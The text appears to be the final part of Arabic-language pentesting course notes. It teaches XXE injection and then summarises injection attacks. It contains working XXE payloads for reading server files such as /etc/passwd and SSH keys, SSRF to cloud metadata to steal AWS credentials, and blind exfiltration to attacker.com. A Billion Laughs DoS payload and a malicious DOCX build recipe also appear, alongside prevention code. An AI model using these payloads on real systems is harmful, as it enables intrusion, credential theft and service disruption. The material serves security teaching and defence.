




# 🎓 الجزء العاشر والأخير: XML و XXE Injection + ملخص الكورس
## Slides 214 → 258

---

## 📌 Slide 214: XML External Entity (XXE) Injection
### عنوان القسم: XXE Injection

آخر نوع من هجمات الحقن — **XXE Injection**! 🔥

> **XXE** هو من أخطر الثغرات وبيسمح بقراءة ملفات، SSRF، وأحياناً Remote Code Execution!

---

## 📌 Slide 215: What is XML?

> **XML** (eXtensible Markup Language) هو لغة ترميز بتُستخدم لتبادل البيانات بين الأنظمة. زي JSON بس أقدم وأكثر تعقيداً.

```xml
<!-- مثال XML بسيط: -->
<?xml version="1.0" encoding="UTF-8"?>
<user>
    <name>admin</name>
    <email>admin@target.com</email>
    <role>administrator</role>
</user>
```

### أماكن استخدام XML:
- SOAP Web Services
- RSS Feeds
- Configuration Files (web.xml, pom.xml)
- Office Documents (DOCX, XLSX = XML compressed!)
- SVG Images
- SAML Authentication

---

## 📌 Slide 216: XML Structure

### بنية XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>  <!-- XML Declaration -->
<!DOCTYPE root [                         <!-- DTD (Document Type Definition) -->
    <!ENTITY name "value">               <!-- Entity Declaration -->
]>
<root>                                   <!-- Root Element -->
    <element attribute="value">          <!-- Element with Attribute -->
        Text content                     <!-- Text Content -->
    </element>
</root>
```

---

## 📌 Slide 217: XML DTD and Entities

### الـ DTD والـ Entities:

> **DTD** (Document Type Definition) بيحدد البنية المسموح بيها في الـ XML. **Entity** هو زي "المتغير" — بيحمل قيمة وبيتحل لما الـ XML تتقرأ.

```xml
<!-- Internal Entity: -->
<!DOCTYPE root [
    <!ENTITY greeting "Hello World!">
]>
<root>&greeting;</root>
<!-- Result: <root>Hello World!</root> -->

<!-- ⚠️ External Entity (SYSTEM): -->
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
<!-- Result: محتويات /etc/passwd! 💀 -->
```

---

## 📌 Slide 218: XXE Injection - Concept

> **XXE Injection** بيحصل لما الـ XML Parser بيعالج **External Entities** من غير ما يتأكد إنها آمنة. المهاجم بيحدد Entity تقرأ **ملفات من السيرفر** أو تعمل **SSRF**.



---

## 📌 Slide 219: XXE - File Read

### قراءة ملفات من السيرفر:

```xml
<!-- قراءة /etc/passwd: -->
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- قراءة Windows file: -->
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>

<!-- قراءة ملفات التطبيق: -->
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "file:///var/www/html/config.php">
]>
```

### بالمصري كده:
أنت بتقول للـ Parser: "قبل ما تعالج الـ XML — روح اقرأ الملف ده وحط محتواه مكان الـ Entity". الـ Parser بيتنفذ الأمر بدون ما يسأل! 😂

---

## 📌 Slide 220: XXE - SSRF (Server-Side Request Forgery)

### استغلال SSRF عبر XXE:

```xml
<!-- SSRF - الوصول لخدمات داخلية: -->
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/">
]>
<root>&xxe;</root>
<!-- ده بيقرأ AWS Metadata — فيه Access Keys! 💀 -->

<!-- SSRF - سكان داخلي: -->
<!DOCTYPE root [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:8080/">
]>
<root>&xxe;</root>
<!-- بيكتشف سيرفرات داخلية! -->
```

### ليه ده خطير؟


> المهاجم **بره** الشبكة بس بيقدر يوصل لأي حاجة **جوه** عبر الـ Web App!

---

## 📌 Slide 221: XXE - Blind XXE

### حقن XXE أعمى (Blind):

> **Blind XXE** بيُستخدم لما النتيجة **مش بتظهر** في الاستجابة. بنبعت البيانات لسيرفر خارجي.

```xml
<!-- Step 1: External DTD على سيرفر المهاجم (evil.dtd): -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;

<!-- Step 2: الـ Payload في الـ XML: -->
<?xml version="1.0"?>
<!DOCTYPE root [
    <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
    %dtd;
]>
<root>test</root>
```

---

## 📌 Slide 222: XXE - Error-Based Extraction

### استخراج عبر رسائل الخطأ:

```xml
<!-- Trigger Error اللي فيه البيانات: -->
<!DOCTYPE root [
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;
]>
<!-- الـ Error هيحتوي محتويات /etc/passwd! -->
```

---

## 📌 Slide 223: XXE - Denial of Service (Billion Laughs)

### هجوم Billion Laughs:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
    <!ENTITY lol "lol">
    <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
    <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
    <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
    <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
    <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
    <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
    <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
    <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<root>&lol9;</root>

<!-- 
ده بينتج: 10^9 = مليار نسخة من "lol"!
بيستهلك ذاكرة ضخمة وبيسقّط السيرفر! 💀

السبب: كل Entity بتشير لـ 10 Entities — بشكل متكرر
lol9 → 10× lol8 → 100× lol7 → ... → 1,000,000,000× lol!
-->
```

---

## 📌 Slide 224: Demo - XXE File Read

### ديمو: قراءة ملفات

```
1. 🔍 اكتشاف نقطة الحقن:
   └── التطبيق بيقبل XML input (API, File Upload, etc.)
   └── Content-Type: application/xml

2. 💉 حقن Basic XXE:
   └── <!ENTITY xxe SYSTEM "file:///etc/passwd">
   └── <root>&xxe;</root>
   └── Response: root:x:0:0:root:/root:/bin/bash...

3. 📊 قراءة ملفات إضافية:
   └── file:///etc/shadow ← هاشات الباسوردات
   └── file:///var/www/html/config.php ← بيانات الداتابيز
   └── file:///home/user/.ssh/id_rsa ← SSH Key! 💀
```

---

## 📌 Slide 225: Demo - XXE SSRF

### ديمو: SSRF عبر XXE

```
1. 🔍 اكتشاف:
   └── التطبيق على AWS
   └── XXE مؤكد (File Read شغالة)

2. 💉 سكان داخلي:
   └── http://127.0.0.1:8080 → 200 OK (Internal app!)
   └── http://192.168.1.1 → 200 OK (Router!)

3. 💀 سرقة AWS Credentials:
   └── http://169.254.169.254/latest/meta-data/iam/security-credentials/
   └── Response: {"AccessKeyId":"AKIA...", "SecretAccessKey":"..."}
   └── Full AWS Access! 🎯
```

---

## 📌 Slide 226: XXE - Where to Look

### أماكن البحث عن XXE:

| المكان | الشرح |
|--------|-------|
| **SOAP APIs** | بتستقبل XML مباشرةً |
| **File Upload** | SVG, DOCX, XLSX كلها XML! |
| **RSS/Atom** | Feed parsers |
| **SAML** | SSO implementations |
| **Config APIs** | بتستقبل XML config |

### ملفات فيها XML مخفي:

```
DOCX = ZIP file containing:
├── word/document.xml ← هنا!
├── word/styles.xml
└── [Content_Types].xml

SVG = XML file:
<?xml version="1.0"?>
<!DOCTYPE svg [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg>&xxe;</svg>
```

> **🔴 من واقع الـ Pentesting:** أكتر مكان بنلاقي فيه XXE هو **File Upload** — خصوصاً SVG و DOCX. الناس بتنسى إن الملفات دي XML!

---

## 📌 Slide 227: XXE Prevention

### الحماية:

```python
# Python - Disable External Entities:
import defusedxml.ElementTree as ET
tree = ET.parse("file.xml")  # Safe parser!

# أو Manual disable:
import xml.etree.ElementTree as ET
parser = ET.XMLParser()
parser.entity = {}  # Disable entities
```

```java
// Java - Disable DTD Processing:
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

```php
// PHP - Disable Entity Loading:
libxml_disable_entity_loader(true);
$doc = simplexml_load_string($xml, 'SimpleXMLElement', LIBXML_NOENT);
```

### القواعد الذهبية:
- ✅ **عطّل DTD Processing** بالكامل (الأفضل)
- ✅ عطّل External Entities
- ✅ استخدم Safe Parsers (defusedxml)
- ✅ Validate و Sanitize الـ XML Input
- ✅ حدّث المكتبات بانتظام

---

## 📌 Slides 228-240: XXE Labs and Advanced Techniques

### Labs XXE:

**Lab 1: Basic XXE - File Read**
```xml
POST /api/xml HTTP/1.1
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<root><data>&xxe;</data></root>
```

**Lab 2: Blind XXE - OOB Extraction**
```xml
<!DOCTYPE root [
<!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
%dtd;
]>
<root>test</root>
```

**Lab 3: XXE via SVG Upload**
```xml
<?xml version="1.0"?>
<!DOCTYPE svg [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
    <text x="10" y="50">&xxe;</text>
</svg>
```

**Lab 4: XXE via DOCX**
```bash
# 1. Create malicious DOCX:
mkdir -p word
echo '<?xml version="1.0"?>
<!DOCTYPE doc [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<document>&xxe;</document>' > word/document.xml

# 2. Zip it:
zip -r evil.docx word/

# 3. Upload to target!
```

---

## 📌 Slides 241-248: Course Review - Injection Attack Types

### مراجعة شاملة لكل أنواع الحقن:



### الأدوات المستخدمة:

| النوع | الأداة الأساسية |
|-------|----------------|
| **SQLi** | SQLMap, Burp Suite |
| **NoSQLi** | NoSQLMap, Burp Suite |
| **LDAPi** | Manual, Custom Scripts |
| **ORMi** | Manual, Code Review |
| **XXE** | Burp Suite, Custom DTDs |

---

## 📌 Slides 249-253: Prevention Summary

### ملخص الحماية الشامل:

| النوع | الحماية الأساسية | الحماية الإضافية |
|-------|-----------------|------------------|
| **SQLi** | Parameterized Queries | WAF + Least Privilege |
| **NoSQLi** | Type Checking + mongo-sanitize | Input Validation |
| **LDAPi** | Escape Special Characters | Input Validation |
| **ORMi** | Use ORM API Correctly | Code Review |
| **XXE** | Disable DTD/External Entities | Safe Parsers |

### قاعدة ذهبية عامة:
> **"Never trust user input"** — أي حاجة جاية من المستخدم ممكن تكون خطر. **دايماً** تحقق، فلتر، وعامل المدخلات كـ Data مش كـ Code!

---

## 📌 Slides 254-256: Pentesting Methodology

### منهجية الـ Pentesting لثغرات الحقن:



---

## 📌 Slide 257: What to Do After Finding an Injection

### بعد ما تلاقي الثغرة:

```
1. 📸 Screenshot + Proof of Concept
2. 📊 حدد الـ Impact:
   └── Data breach? → Critical
   └── Auth bypass? → High
   └── Information disclosure? → Medium
3. 📝 اكتب التقرير:
   └── Description
   └── Steps to Reproduce
   └── Impact
   └── Remediation
4. 🔒 أبلغ العميل/الفريق
5. ✅ تابع الـ Remediation
```

---

## 📌 Slide 258: Course Complete! 🎉

### خلصنا الكورس! 🎉🎉🎉

```
🎓 Advanced Injection Attacks - Course Complete!

ملخص ما تعلمته:
━━━━━━━━━━━━━━━━
✅ SQL Injection (كل الأنواع + SQLMap)
✅ NoSQL Injection (MongoDB)
✅ LDAP Injection (Active Directory)
✅ ORM Injection (SQLAlchemy, Hibernate, Django)
✅ XXE Injection (File Read, SSRF, Blind)
✅ منهجية الاختبار الشاملة
✅ أدوات الاختبار والأتمتة
✅ الحماية وأفضل الممارسات

نصائح أخيرة:
━━━━━━━━━━━━━
🔴 مارس على: DVWA, HackTheBox, TryHackMe, PortSwigger
🔴 اتعلم: المزيد عن Web App Security (OWASP Top 10)
🔴 شارك: في Bug Bounty Programs
🔴 وثّق: كل حاجة بتتعلمها

"The best way to learn hacking is to hack (legally)!"
```

> **🎯 مبروك! دلوقتي عندك المعرفة الكافية لاكتشاف واستغلال كل أنواع هجمات الحقن. استخدم المعرفة دي بشكل أخلاقي ومسؤول!** 🛡️

---

## 🎯 ملخص الجزء العاشر والأخير

### 🔧 Key Takeaways:

```
✅ XXE Injection: قراءة ملفات + SSRF + DoS
✅ الحماية من XXE: عطّل DTD + External Entities
✅ البحث عن XXE: SOAP, File Upload (SVG/DOCX), RSS, SAML
✅ Billion Laughs: DoS عبر Nested Entities  
✅ كل نوع حقن ليه Payloads + أدوات + حماية مخصصة
✅ المنهجية: Recon → Fingerprint → Test → Confirm → Exploit → Report
```

> 🎓 **نهاية الكورس!** اتعلمت كل أنواع هجمات الحقن — من SQL لحد XXE. دلوقتي إيدك على كل الأدوات — استخدمها صح! 🛡️
